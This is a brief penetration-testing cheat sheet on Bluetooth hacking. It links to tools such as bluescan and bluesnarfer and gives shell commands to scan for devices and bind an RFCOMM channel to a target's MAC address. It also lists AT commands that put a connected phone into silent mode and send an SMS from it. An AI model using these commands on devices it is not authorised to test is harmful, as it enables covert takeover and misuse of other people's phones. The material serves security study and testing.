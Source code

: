 # 🫐 Bluetooth

{% embed url="https://github.com/zedxpace/bluetooth-hacking-" %}
Bluetooth Hacking
{% endembed %}

## Basics

```bash
# scan peripherals
service bluetooth start
hcitool scan
# or
bluetoothctl scan on

# connect
rfcomm bind 0 $mac $channel_nb
rfcomm bind 0 $mac 6
# connect to the peripheral on channel 6

# AT terminal 
AT*ESIL=1 # activates silence mode
AT+CMGS="+336875648" # sends SMS

```

## Tools

{% embed url="https://github.com/fO-000/bluescan" %}

{% embed url="https://github.com/kimbo/bluesnarfer" %}
